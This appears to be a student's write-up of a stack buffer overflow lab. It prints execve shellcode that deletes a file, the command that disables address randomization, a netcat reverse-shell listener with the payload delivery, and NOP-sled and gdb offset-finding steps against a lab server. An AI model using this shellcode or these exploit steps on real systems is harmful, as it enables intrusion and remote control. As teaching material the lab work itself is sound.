# Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3: Level-2 Attack

We know these facts:

- We can put the shellcode at the end of the overwritted data.

- Buffer as size between 100 and 300.

- The address of the buffer.

In order to change the execution flow of the stack program, we can overwrite all content in the positions inside Badfile between 100 and 300 with the possible shellcode address, while leave the NOP instruction in all the others positions. The new return address that points to the shellcode should be lower than the shellcode address, and bigger than the possible buffer size (maximum 300). In this way, even if the address is not exact, the NOP instructions slide the pointer until a code is found in a cell of memory, that is, our shellcode. Badfile construction is made by exploit-L2.py, the rest of the attack is conducted in the same way as in the previous task.

# Task 4: Level-3 Attack

Create a new Makefile for the server code in which we disable all the mitigations and enable the compilation with the debugging option -g (see Makefile inside server-code-debug folder), then run:

```console
$ make
```

After that, debug the stack-L2.out and stack-L1.out binary files with -q (option that allow to read from a binary file) and execute the following commands for each of the two executables:

```console
$ gdb -q stack-L?
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```

We can notice that the buffer addresses are differents among the two executables, while the ebp addresses are equal. However, even if these addresses are not the same as the real ones used by the programs running on the servers, they suggest to us that the same ebp is used always by the executables. So, just resuing the same ebp retrived in the previous task, and the buffer address returned by the target container, we can exploit another time the buffer overflow lunching a reverse shell.

Notice that the bof function inside the stack program use 3 local variables. If for example 180 bytes are used to store the buffer, 4 + 4 bytes are used for the other two local variables, so the base pointer ebp address is situated after 188 bytes from the buffer's address, specifically at distance equal to 192.

# Task 4: Level-3 Attack

